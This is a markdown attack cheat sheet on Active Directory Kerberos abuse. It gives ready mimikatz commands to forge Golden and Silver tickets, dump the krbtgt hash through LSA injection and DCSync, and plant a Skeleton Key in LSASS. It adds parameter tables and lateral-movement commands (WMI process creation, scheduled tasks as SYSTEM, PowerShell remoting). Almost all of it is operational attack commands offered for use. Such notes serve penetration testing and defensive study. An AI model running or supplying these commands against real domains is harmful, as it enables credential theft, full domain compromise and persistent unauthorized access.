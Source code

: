 # Tickets

## Golden Ticket

a valid ticket forged from the Domain Controller KRBTGT hash. Allows an attacker to impersonate any user on any machine even from an host external to the domain.

```
kerberos::golden /domain:<domain> /sid:<sid> /aes256:<aes> /user:<user> /groups:<groups> /ptt
```

Create Golden Ticket as Administrator user and store it in memory

```
kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /krbtgt:<ticket> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

| Parameter                              | Description                                                                                   |
| -------------------------------------- | --------------------------------------------------------------------------------------------- |
| /user                                  | Username                                                                                      |
| /domain                                | FQDN                                                                                          |
| /sid                                   | Domain SID                                                                                    |
| /krbtgt OR /aes128 OR /aes256 OR /ntlm | key to use to generate the ticket                                                             |
| /id                                    | User ID, use 500 for Administrator                                                            |
| /groups                                |  Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset                           |  0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin                                 | Optional ticket lifetime in minutes. Default is 600 (10 hours)                                |
| /renewmax                              | Optional ticket lifetime in minutes. Default is 10080 (7 days)                                |
| /ptt OR /ticket                        | Load the ticket in memory or store it as a file for later use                                 |

### Mimikatz info dump

```
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt
```

## Silver Ticket

Create a valid TGT ticket from a known NTLM service hash. Allows to gain access to the service machine.

```
kerberos::golden /user:<user> /domain:<domain> /sid:<SID> /rc4:<hash> /id:<id> /groups:<groups> /service:<srv> /target:<host>
```

| Parameter       | Description                                                                                   |
| --------------- | --------------------------------------------------------------------------------------------- |
| /user           | Username                                                                                      |
| /domain         | FQDN                                                                                          |
| /sid            | Domain SID                                                                                    |
| /rc4            | NTLM key                                                                                      |
| /id             | User ID, use 500 for Administrator                                                            |
| /groups         |  Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset    |  0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin          | Optional ticket lifetime in minutes. Default is 600 (10 hours)                                |
| /renewmax       | Optional ticket lifetime in minutes. Default is 10080 (7 days)                                |
| /service        | Type of service to attack. See table below for reference.                                     |
| /target         | The target host                                                                               |
| /ptt OR /ticket | Load the ticket in memory or store it as a file for later use                                 |

### List of service attacks

In case of multiple tickets, the attacker has to create a new silver ticket for the same target host for each specified service type. The following attacks are run from the Windows machine where oyu have created the ticket

| Service                             | Silver Tickets service types required          |
| ----------------------------------- | ---------------------------------------------- |
| WMI                                 | HOST, RPCSS                                    |
| PowerShell Remoting                 | HOST, HTTP, WSMAN or RPCSS depending on the OS |
| WinRM                               | HOST, HTTP                                     |
| Task Scheduler                      | HOST                                           |
| LDAP                                | LDAP                                           |
| Windows File Share                  | CIFS                                           |
| Windows Remote Administration Tools | RPCSS, LDAP, CIFS                              |

#### WMI

```
wmic.exe /authority:"kerberos:<domain>\<DC>" /node:"<target>" process call create "<payload>"
```

#### PowerShell remoting / WinRM

```
New-PSSESSION -NAME PSC -ComputerName <target>; Enter-PSSession -Name PSC
```

#### Task Scheduler

```
schtasks /create /s <target> /SC <time> <amount> /RU "NT Authority\System" /IR "<payload>"

schtasks /create /s <target> /SC <time> <amount> /RU "<group>/<user>" /IR "<payload>"
```

The available times are MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE. For the first 5 ones you also have to specify an amount of time, for instance HOURLY 3 means start every 3 hours.

#### Windows File Share

```
dir \\<target>\c$
```

#### LDAP Desync attack

```
lsadump::dcsync /dc:<DC> /domain:<domain> /user:krbtgt
```

## Skeleton Key

Patches the LSASS Domain Controller process to allow access for a determined user with an arbitrary password specified by the attacker. After the attack both the new password and the original one are considered valid. The default injected password is mimikatz.

```
misc::skeleton
```

###
